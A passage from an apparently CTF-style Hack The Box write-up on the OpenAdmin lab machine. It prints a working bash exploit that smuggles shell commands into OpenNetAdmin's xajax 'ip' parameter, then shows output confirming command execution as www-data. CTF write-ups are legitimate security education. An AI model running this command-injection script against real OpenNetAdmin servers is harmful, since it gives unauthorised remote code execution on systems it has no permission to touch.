 The only entry in the record counts is for a DNS domain:

![dns](./images/dns.png) 

Unfortunately I am not allowed to add any domains as `guest`:

![denied](./images/denied.png) 

In searching [EDB](https://www.exploit-db.com) I easily found a [Remote Code execution](https://www.exploit-db.com/exploits/47691) for this exact version. It also has a metasploit module, but I am going to pass on that for now.

I modified the exploit a tiny bit to just add the url I *think* I should be using:

```console
#!/bin/bash
URL="http://10.10.10.171/ona/"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

And to give it a shot:

```console
root@discovery:~/htb/openadmin# ./ona-rce.sh
$ whoami
www-data
$ pwd
/opt/ona/www
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ 
```

